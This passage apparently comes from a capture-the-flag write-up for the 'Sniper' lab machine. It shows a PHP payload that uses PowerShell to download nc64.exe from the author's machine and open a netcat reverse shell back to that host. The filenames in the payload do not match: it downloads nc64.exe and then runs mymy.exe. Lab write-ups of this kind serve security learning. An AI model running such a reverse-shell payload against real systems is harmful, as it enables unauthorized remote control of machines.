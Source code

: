     ![/images/Sniper/php-cool.png](/images/Sniper/php-cool.png)

And the PHP code is executed!. Great, now we should include a PHP reverse shell. Here is my php code to get a rev shell

    <?php
    exec('powershell.exe mkdir C:\temp; iwr -outf C:\temp\nc64.exe [http://10.10.17.157:9090/nc64.exe;](http://10.10.17.157:9090/nc64.exe;) C:\temp\mymy.exe 10.10.17.157 8888 -e powershell 2>&1', $output);
    print_r($output);
    ?>

the code is simple it just:

- mkdir **C:\temp**
- download  **nc.exe** from my machine to the **C:\temp** folder. executes nc to connect back to us

![/images/Sniper/shell.png](/images/Sniper/shell.png)
